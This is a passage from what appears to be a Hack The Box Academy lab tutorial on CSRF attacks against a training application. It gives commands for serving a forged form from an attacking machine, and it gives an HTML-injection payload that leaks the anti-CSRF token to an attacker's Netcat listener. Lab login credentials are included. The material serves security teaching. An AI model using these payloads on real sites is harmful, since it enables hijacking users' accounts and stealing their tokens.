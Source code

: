 If you are wondering how we came up with the above form based on the intercepted GET request, please study the following resource [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

You can serve the page above from your attacking machine as follows:
```
user@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```
While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving:
![34](https://academy.hackthebox.com/storage/modules/153/34.png)

If csrf.htb.net was utilizing SSL encryption, an attacker would still be able to alter Julie Rogers' profile through CSRF.

In the next section, we will attack an application submitting the CSRF token via POST without having to reside in the local network.

## Cross-Site Request Forgery (POST-based)

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`:
![36](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the `email` value, such as:
```html
<h1>h1<u>underline<%2fu><%2fh1>
```
![37](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token:
![39](https://academy.hackthebox.com/storage/modules/153/39.png)

Mostly in case we cannot see the Anti-CSRF token by the source page because we cannot have an account, we can try to do make some injection.

Let us first instruct Netcat to listen on port 8000, as follows:
```
user@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```
Now we can get the CSRF token via sending the below payload to our victim:
```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```
While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token:
![40](https://academy.hackthebox.com/storage/modules/153/40.png)
